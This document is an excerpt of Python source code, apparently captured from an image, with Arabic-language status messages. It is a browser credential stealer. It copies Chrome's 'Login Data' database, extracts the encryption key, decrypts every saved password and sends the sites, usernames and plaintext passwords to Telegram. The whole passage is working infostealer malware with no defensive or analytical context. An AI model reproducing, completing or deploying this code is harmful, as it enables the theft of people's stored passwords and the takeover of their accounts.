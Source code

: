 ```python
        send_to_telegram_split(f"⚠️ فشل في فك تشفير مفتاح التشفير من 'Local State': {str(e)}")
        return None

def decrypt_password(password, key):
    try:
        if not password.startswith(b'v10') and not password.startswith(b'v11'):
            return win32crypt.CryptUnprotectData(password, None, None, None, 0)[1].decode('utf-8')
        iv = password[3:15]
        password = password[15:]
        cipher = AES.new(key, AES.MODE_GCM, iv)
        decrypted = cipher.decrypt(password)[:-16].decode()
        return decrypted
    except Exception as e:
        return f"[فشل فك التشفير: {str(e)}]"

def extract_browser_credentials():
    try:
        chrome_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data", "Default", "Login Data")
        if not os.path.exists(chrome_path):
            send_to_telegram_split("⚠️ ملف 'Login Data' غير موجود في مسار Chrome. تأكد من تثبيت Chrome وتسجيل الدخول.")
            return
        temp_db = os.path.join(tempfile.gettempdir(), "Login_Data_temp")
        shutil.copy2(chrome_path, temp_db)
        conn = sqlite3.connect(temp_db)
        cursor = conn.cursor()
        cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
        rows = cursor.fetchall()
        encryption_key = get_encryption_key()
        if not encryption_key:
            send_to_telegram_split("⚠️ تعذر استخراج مفتاح التشفير. شغّل الكود كمستخدم عادي.")
            conn.close()
            os.remove(temp_db)
            return
        credentials = []
        for row in rows:
            url, username, encrypted_password = row
            if username and encrypted_password:
                password = decrypt_password(encrypted_password, encryption_key)
                credentials.append(f"🌐 الموقع: {url}\n👤 الإيميل/اسم المستخدم: {username}\n🔒 كلمة المرور: {password}")
            else:
                credentials.append(f"🌐 الموقع: {url}\n👤 الإيميل/اسم المستخدم: {username or '[غير متوفر]'}\n🔒 كلمة المرور: [غير متوفرة]")
        conn.close()
        os.remove(temp_db)
        if credentials:
            message = "📋 بيانات تسجيل الدخول من Chrome:\n\n" + "\n\n".join(credentials)
            send_to_telegram_split(message)
        else:
            send_to_telegram_split("⚠️ لم يتم العثور على بيانات صالحة لتسجيل الدخول في Chrome.")
    except Exception as e:
        send_to_telegram_split(f"⚠️ خطأ عام أثناء استخراج بيانات المتصفح: {str(e)}")
        if os.path.exists(temp_db):
            os.remove(temp_db)
```
